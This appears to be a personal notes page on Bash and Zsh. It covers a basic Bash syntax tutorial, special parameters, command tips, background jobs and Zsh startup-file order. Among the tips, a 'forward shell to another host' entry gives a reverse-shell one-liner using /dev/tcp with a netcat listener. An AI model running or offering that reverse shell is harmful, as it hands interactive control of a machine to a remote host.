

Shell
- Command-line shell
- Unix Shells: Bash, Fish, Ksh, Tcsh, Zsh comparison
- Linux Handbook
- Автоматически изменяем заголовок эмулятора терминала на последнюю введённую команду
256 colors for Terminal:
Bash
Reference:
Bash Learning Sources
- Advanced Bash-Scripting Guide
- Learn X in Y minutes
- Bash Pitfalls
- Введение в Bash Shell(Habr)
-
Introduction to Advanced Bash Usage - James Pannacciulli @ OSCON 2014
Bash Essentials
Bash script syntax
#! /bin/bash
# ECHO COMMAND
echo Hello World!
# VARIABLES
# Uppercase by convention
# Letters, numbers, underscores
NAME="Bob"
echo "My name is $NAME"
echo "My name is ${NAME}"
# USER INPUT
read -p "Enter your name: " NAME
echo "Hello $NAME, nice to meet you!"
# SIMPLE IF STATEMENT
if [ "$NAME" == "Brad" ]
then
echo "Your name is Brad"
fi
# IF-ELSE
if [ "$NAME" == "Brad" ]
then
echo "Your name is Brad"
else
echo "Your name is NOT Brad"
fi
# ELSE-IF (elif)
if [ "$NAME" == "Brad" ]
then
echo "Your name is Brad"
elif [ "$NAME" == "Jack" ]
then
echo "Your name is Jack"
else
echo "Your name is NOT Brad or Jack"
fi
# COMPARISON
NUM1=31
NUM2=5
if [ "$NUM1" -gt "$NUM2" ]
then
echo "$NUM1 is greater than $NUM2"
else
echo "$NUM1 is less than $NUM2"
fi
########
# val1 -eq val2 Returns true if the values are equal
# val1 -ne val2 Returns true if the values are not equal
# val1 -gt val2 Returns true if val1 is greater than val2
# val1 -ge val2 Returns true if val1 is greater than or equal to val2
# val1 -lt val2 Returns true if val1 is less than val2
# val1 -le val2 Returns true if val1 is less than or equal to val2
########
# FILE CONDITIONS
FILE="test.txt"
if [ -e "$FILE" ]
then
echo "$FILE exists"
else
echo "$FILE does NOT exist"
fi
########
# -d file True if the file is a directory
# -e file True if the file exists (note that this is not particularly portable, thus -f is generally used)
# -f file True if the provided string is a file
# -g file True if the group id is set on a file
# -r file True if the file is readable
# -s file True if the file has a non-zero size
# -u True if the user id is set on a file
# -w True if the file is writable
# -x True if the file is an executable
########
# CASE STATEMENT
read -p "Are you 21 or over? Y/N " ANSWER
case "$ANSWER" in
[yY] | [yY][eE][sS])
echo "You can have a beer :)"
;;
[nN] | [nN][oO])
echo "Sorry, no drinking"
;;
*)
echo "Please enter y/yes or n/no"
;;
esac
# SIMPLE FOR LOOP
NAMES="Brad Kevin Alice Mark"
for NAME in $NAMES
do
echo "Hello $NAME"
done
# FOR LOOP TO RENAME FILES
FILES=$(ls *.txt)
NEW="new"
for FILE in $FILES
do
echo "Renaming $FILE to new-$FILE"
mv $FILE $NEW-$FILE
done
# WHILE LOOP - READ THROUGH A FILE LINE BY LINE
LINE=1
while read -r CURRENT_LINE
do
echo "$LINE: $CURRENT_LINE"
((LINE++))
done < "./new-1.txt"
# FUNCTION
function sayHello() {
echo "Hello World"
}
sayHello
# FUNCTION WITH PARAMS
function greet() {
echo "Hello, I am $1 and I am $2"
}
greet "Brad" "36"
# CREATE FOLDER AND WRITE TO A FILE
mkdir hello
touch "hello/world.txt"
echo "Hello World" >> "hello/world.txt" # >> adds to file, > overwrites a file
echo "Created hello/world.txt"
Bash Positional Parameters(source)
$0, $1, $2, etc. - Positional parameters, passed from command line to script, passed to a function, or set to a variable.$#- Number of command-line arguments or positional parameters.$*- All of the positional parameters, seen as a single word.$*must be quoted.$@- Same as"$*", but each parameter is a quoted string, that is, the parameters are passed on intact, without interpretation or expansion. This means, among other things, that each parameter in the argument list is seen as a separate word."$@"must be quoted.$#- Number of arguments in$*.
Other Special Parameters
$-- Flags passed to script (usingset).$$- PID of the current process.$!- PID of last job run in background.$?- Return code of the last executed command.$_- Final argument of previous command executed..
Bash Shell Shortcuts

Bash configuration
-
compatibility mode with vi in bash
# put this line in ~./bashrc set -o vi # put these lines in ~./inputrc set editing-mode vi set keymap vi
Bash Tips & Tricks
Useful Commands
-
show the current folder's size
du -hs -
redirect output to protected file
# overwrite output to protected file echo 16 | sudo tee /proc/sys/kernel/sysrq # append output to protected file echo 16 | sudo tee -a /proc/sys/kernel/sysrq -
convert pdf to jpg
-
using
pdftoppmtool:Basic command format:
bash pdftoppm -jpeg -r 300 input.pdf outputThe
-jpegsets the output image format to JPG,-r 300sets the output image resolution to 300 DPI, and the wordoutputwill be the prefix to all pages of images, which will be numbered and placed into your current directory you are working in. A better way, in my opinion, however, is to usemkdir -p imagesfirst to create an "images" directory, then set the output toimages/pgso that all output images will be placed cleanly into theimagesdir you just created, with the file prefixpgin front of each of their numbers.Therefore, here are my favorite commands:
-
[Produces ~1MB-sized files per pg] Output in .jpg format at 300 DPI:
mkdir -p images && pdftoppm -jpeg -r 300 mypdf.pdf images/pg -
[Produces ~2MB-sized files per pg] Output in .jpg format at highest quality (least compression) and still at 300 DPI:
mkdir -p images && pdftoppm -jpeg -jpegopt quality=100 -r 300 mypdf.pdf images/pg
-
-
using ImageMagick's
converttool:-
install
imagemagick -
use
convertlike this:convert input.pdf output.jpg # For good quality use these parameters convert -density 300 -quality 100 in.pdf out.jpg
-
-
-
forward shell to another host
bash -i >& /dev/tcp/<host-ip>/<port> 0>&1Example:
-
On host machine run
bash -i >& /dev/tcp/192.168.218.1/9999 0>&1where:192.168.218.1is the host to which you want to forward the shell(note that you can also use a hostname but I strongly suggest you use an IP to prevent issues with hostname-resolving)9999is the port number on which the netcat listener will listen
-
Start the netcat listener on the other side by running
nc -l 9999.- Double check that there are no firewall rules preventing you from accepting connections.
- Some versions of netcat require you to add
-pbefore the port number.
-
-
"find"
Run Commands in the Background
-
End a Command with &
Note
When the terminal session is closed, the command ends. You can also kill the command by issuing the
jobscommand, finding the number of the command that’s running, and killing it with thekillcommand:kill %1Warning
Using
&doesn’t disconnect the command away from you; it just pushes it into the background. You can verify this by typingjobsinto the terminal. This means that while you’re trying to use the terminal, anything the command wants to push toSTDOUTorSTDERRwill still be printed, which may be distracting, e.g.ping google.com &. If you’re looking to prevent this, consider redirecting the command to “/dev/null”:COMMAND &>/dev/null & -
& After a Command, Then Disown It
Note
Using
disownafter running command with&keep this command running in constant, even with your terminal session ending. It’ll still keep piping things toSTDOUTorSTDERR, but once you exit and reopen your terminal, you won’t see anything there. You can find the command again with thetoporpscommands and kill it with thekillcommand. -
Nohup, with & and /dev/null
Note
nohupbypasses the HUP signal (signal hang up), making it possible to run commands in the background even when the terminal is off. Combine this command with redirection to “/dev/null” (to prevent nohup from making a nohup.out file), and everything goes to the background with one command:nohup COMMAND &>/dev/null &
Bash Utilities
- Basher - bash package manager
- dotenv
- bashew - bash script / project creator
- setver - get and set semver versions for php, node, github and bash
- Trashy
Zsh
- Переход с bash на zsh(Habr)
- terminal-helpful-tips (7 Part Series)
- zsh: tips & tricks(Habr) + github
- What are the practical differences between Bash and Zsh?
- Command Line Productivity with ZSH Aliases
- Learn the basics of the ZSH shell
- Getting started with Zsh
MacOS:
Zsh Essentials
Zsh configuration
-
zsh startup and shutdown files read order
Note
Files starting with
.are user-level configs and are located in the directory path set as value to the ZDOTDIR variable. If the value of this variable is an empty string, files are assumed to be in the user HOME directory.Login Interactive Shell
/etc/zshenv->.zshenv- are used to define environmental variables. They are always invoked each time a zsh session is started, therefore they should contain the less possible content. Only commands that don’t produce output should be written in these files./etc/zprofile->.zprofile- can be used to run commands to setup login shell's context./etc/zshrc->.zshrc- are invoked when an interactive shell session is started. They are basically the counterpart of the /etc/bashrc and ~/.bashrc files for the BASH shell./etc/zlogin->.zlogin- are considered as an alternative to “profile” files..zlogout->/etc/zlogout- are run when a login shell session is closed.
Non-Login Interactive Shell
/etc/zshenv->.zshenv/etc/zshrc->.zshrc
Non-Login Non-Interactive Shell (e.g. scripts)
/etc/zshenv->.zshenv
Zsh Utilities
Oh My Zsh
A delightful community-driven framework for managing your zsh configuration.